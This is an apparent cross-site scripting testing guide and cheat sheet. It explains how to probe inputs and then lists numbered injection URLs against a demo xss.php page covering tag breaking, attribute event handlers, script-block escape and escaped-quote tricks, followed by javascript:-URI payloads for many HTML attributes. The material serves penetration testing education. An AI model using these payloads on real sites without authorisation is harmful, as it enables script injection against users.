

General:
Step 1: Blast
To find XSS flaws we need to know where to look for it and how we can detect it. Where to look for it is as simple as complicated: all we need is to probe every input the application has.
So let’s think about it: which is the most important single character for a XSS payload? As we are dealing with HTML, the most important is the identifier of a tag: the less than sign “<”.
Step 2: Look for your injection and see if it's reflected
Step 3: Attempt to bypass filtering
Step 4: Repeat for all reflected locations
URL Reflection
When URL is reflected somehow in source code, we can add our own XSS vector/payload to it. For PHP pages it’s possible to do add anything in the URL after page name (without changing it) with the use of a slash character (/).
1. http://brutelogic.com.br/xss.php/”><svg onload=alert(1)>
The leading tag breaking (“>) is needed to break out of the current tag an make possible the insertion of a new one.

Although there are several reasons for different languages (reflection might appear in path or in URL parameters too), for PHP the culprit usually is the global variable $_SERVER[“PHP_SELF”] in action field of submission forms.
Simple HTMLi (HTML injection)
The most straightforward one, input is reflected just right in the code between existing tags, after or before them. Without the need to escape or break anything, any simple XSS vector like the ones in the form of <tag handler=jsCode> does the job.
2. http://brutelogic.com.br/xss.php?a=<svg onload=alert(1)>

Inline HTMLi
Almost simple as the previous one but with a little “> prepended to break out of the current tag.
3. http://brutelogic.com.br/xss.php?b1=”><svg onload=alert(1)>

Inline HTMLi: No Tag Breaking
When input lands in an HTML attribute and there’s filtering of greater than character (>), it’s not possible to break out of current tag like in the previous case.

So we use an event handler appropriate to the very tag we are injecting into, like:
4. http://brutelogic.com.br/xss.php?b3=” onmouseover=alert(1)//
Which closes the value and gives room to insertion of the onmouseover event handler. Pointing to alert(1) followed by double slashes to comment out the hanging quote, that triggers the js popup when victim points his/her mouse over the affected input field.

HTMLi in Js (Javascript) Block
Input sometimes land into a javascript block (script tags), usually in the value of some variable of the code. But because the HTML tags has priority in the browser’s parsing, we can simple terminate the block and insert a new tag.
5. http://brutelogic.com.br/xss.php?c1=</script><svg onload=alert(1)>

Simple Js Injection
If the script tag is being filtered somehow, previous exploitation will fail.
So the way to go is to inject javascript code, respecting the syntax. One known way to do that is by “concatenating” the value of vulnerable variable to our desired code to execute. Because we can’t let any quote hanging, we break first, concatenate to our code (with minus sign) and then do the reverse (concatenate and then insert a quote) to get a valid javascript syntax.
6. http://brutelogic.com.br/xss.php?c3=’-alert(1)-‘

Escaped Js Injection
In the previous case, if the quote (which is responsible for the break out of the variable’s value) is escaped with a backslash (\), injection won’t work (invalid syntax).
For that, we have a little trick: escaping the escape. We insert a leading backslash to escape the added one and then the quote will work to break. After “concatenation” to our desired js code, we need to comment out the rest because there’s no way to repeat the process in the remaining side of the injection.
7. http://brutelogic.com.br/xss.php?c5=\’-alert(1)//

(no attribute)
<script>alert(1)</script>
src
<script src=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)> *
href
<a href=javascript:alert(1)>click
<math><brute href=javascript:alert(1)>click *
action
<form action=javascript:alert(1)><input type=submit>
<isindex action=javascript:alert(1) type=submit value=click> *
formaction
<form><button formaction=javascript:alert(1)>click
<form><input formaction=javascript:alert(1) type=submit value=click>
<form><input formaction=javascript:alert(1) type=image value=click>
<form><input formaction=javascript:alert(1) type=image src=http://brutelogic.com.br/webgun/img/youtube1.jpg>
<isindex formaction=javascript:alert(1) type=submit value=click> *
data
<object data=javascript:alert(1)> *
srcdoc
<iframe srcdoc=%26lt;svg/o%26%23x6Eload%26equals;alert%26lpar;1)%26gt;>
xlink:href
<svg><script xlink:href=data:,alert(1)></script>
<svg><script xlink:href=data:,alert(1) /> *
<math><brute xlink:href=javascript:alert(1)>click *
from
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=%26>